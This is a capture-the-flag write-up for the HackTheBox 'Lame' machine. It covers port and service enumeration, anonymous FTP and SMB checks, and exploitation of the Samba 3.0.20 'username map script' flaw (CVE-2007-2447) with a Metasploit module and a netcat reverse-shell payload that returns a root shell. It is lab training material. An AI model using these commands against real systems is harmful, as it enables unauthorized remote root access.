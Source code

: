```yaml
---
title: HackTheBox Lame Writeup
description: A simple linux machine, Samba Username map script RCE.
author: 
date: 2025-04-03
categories: [CTF, HTB]
tags: [HTB, CTF]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/feature.png
  alt: Responsive rendering of Chirpy theme on multiple devices.
---
```

# Enumeration
#### Port and Service enumeration

```shell
$ nmap -sC -sV 10.10.10.3

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h41m54s, deviation: 2h49m45s, median: -18m07s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-04-03T09:03:20-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
```

From the scan result we can see that 5 TCP port are open.
  - 21/tcp  ---> ftp  ---> vsftpd 2.3.4
  - 22/tcp  ---> ssh  ---> OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
  - 139/tcp  ---> netbios-ssn  ---> Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  - 445/tcp  ---> netbios-ssn  ---> Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
  - 3632/tcp  ---> distccd  ---> distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

Now more enumerate these services for exploitation.

##### 21/tcp ftp
- At first try to login Anonymously using username `anonymous` and blank password.

```bash
$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
```

- Login successful. But this is empty

```bash
ftp> ls -la
229 Entering Extended Passive Mode (|||22196|).
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
```

##### 22/tcp ssh
- Its rare to find any ssh exploit. So I'll skip this.

##### 139/tcp 445/tcp netbios-ssn
- List all available shares using `smbclient`

```bash
$ smbclient -L 10.10.10.3 
Password for [WORKGROUP\kali]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```

- Here we find two non default share `tmp` and `opt`. Let's inspect them more.

```bash
$ smbclient \\\\10.10.10.3\\tmp
Password for [WORKGROUP\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_IO_TIMEOUT listing \*
smb: \> 
smb: \> dir
NT_STATUS_IO_TIMEOUT listing \*
smb: \> ^C
```
- This shows timeout. So I cancled it. Now inspect opt

```bash
$ smbclient \\\\10.10.10.3\\opt
Password for [WORKGROUP\kali]:
Anonymous login successful
tree connect failed: NT_STATUS_ACCESS_DENIED
```
- This gives Access Denied. Now move forward.

# Exploitation
- From enumeration we found samba 3.0.20 version, which is vulnerable to **CVE-2007-2447** 'Username map script' RCE .
- This exploit has a metasploit module. Now start metasploit framework using `msfconsole` and search for the exploit.

```
msf6 > search samba 3.0.20
Matching Modules
================
   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution

Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script
msf6 > 
```

- Here we found out exploit with number 0 and this exploit Rank is `excellent`. Now configure and use this exploit.

```
msf6 > use 0
```
- Show all available options of this exploit

```
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/usin
                                       g-metasploit.html
   RPORT    139              yes       The target port (TCP)

Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.40.170   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.
```

- Now set remote host

```
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
```

- Set localhost where we will receive the reverse shell. It should be your tun/VPN ip 

```
msf6 exploit(multi/samba/usermap_script) > set LHOST <your-ip>
LHOST => 10.10.14.82
```

- Finally run the exploit using `run` or `exploit`

```
msf6 exploit(multi/samba/usermap_script) > run
[*] Started reverse TCP handler on 10.10.14.82:4444 
[*] Command shell session 1 opened (10.10.14.82:4444 -> 10.10.10.3:37039) at 2025-04-03 19:48:11 +0600
```

- After exploittation it will not show a prompt. To show a prompt just execute `sh`.

```
sh-3.2# whoami
whoami
root
sh-3.2# id
id
uid=0(root) gid=0(root)
sh-3.2# hostname
hostname
lame
sh-3.2# 
```

**As we got a root shell, so we do not need to privilege escation**